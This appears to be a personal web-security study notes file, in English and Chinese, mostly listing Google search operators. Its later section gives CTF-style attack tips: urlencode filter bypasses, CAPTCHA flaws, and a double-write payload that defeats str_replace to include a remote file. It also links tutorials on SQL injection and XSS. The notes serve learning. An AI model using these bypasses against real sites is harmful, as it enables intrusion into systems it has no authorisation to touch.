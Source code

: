 # web_security

##  ------the skill of how to google------

###  accurate search
---
`“CESIGN”`

### excludeing a word
---
`linux -ubuntu`

### site search
---
`site:cesign.com hello`

### related words
---
`~hello`


### the wildcard
---
`"hello *"`

### time ranges
---
`ubuntu 2008..2010`

### file type
---
`filetype:pdf how to learn`

### one world or the other
---
`ubuntu or linux`

### word definitions
---
`define:word`

### data协议
---
* 如果后台会过滤相应的字符并且没有转换（urldecode），可以用urlencode绕过
* []

### find the words you want in one webpage
---
`intext:word1 word2 word3`

### find the words you want in the title of one page (<title>hello</title>:like this)
---
`intitle:word`

### find the cache data on the web
---
`cache:hdu.edu.cn`

### find the basic information of somwthing
---
`info:keyword`

### search the url contains the key word
---
`inurl:keyword`

### get all the url of one website
---
`site:url`

### find the page that has some connections with the url you give
---
`related:url`

### ? the way to use
---
`like a letter you don't know  eg:"I l?ve"`


##  实战篇
---
`加密方法 base64,rot13`
<hr/>
`工具 chrome插件：http-header修改：modify headers`
<hr/>
`验证码常有三种错误：（1）一个验证码可重复用，不过期；（2）验证码只能用一次，但后台清空后可以构造为空；`

---
### PHP伪协议
[学习地址](http://www.lorexxar.cn/2016/09/14/php-wei/)

### 常识
使用str_replace函数是极其不安全的，因为可以使用双写绕过替换规则。
例如page=hthttp://tp://192.168.5.12/phpinfo.txt时，str_replace函数会将http://删除，于是page=http://192.168.5.12/phpinfo.txt，成功执行远程命令。

### sql盲注
[学习地址](http://www.freebuf.com/articles/web/120985.html)
`防注可以用PDO技术 [学习地址](http://www.jb51.net/article/56612.htm)`

### xss各种漏洞
[学习地址(freebuf)](http://www.freebuf.com/articles/web/123779.html)

### shodan的使用
[学习地址](https://cli.shodan.io/)
### data协议
* 可以通过urlencode然过一定的过滤
![](http://img.blog.csdn.net/20161027135341809) 
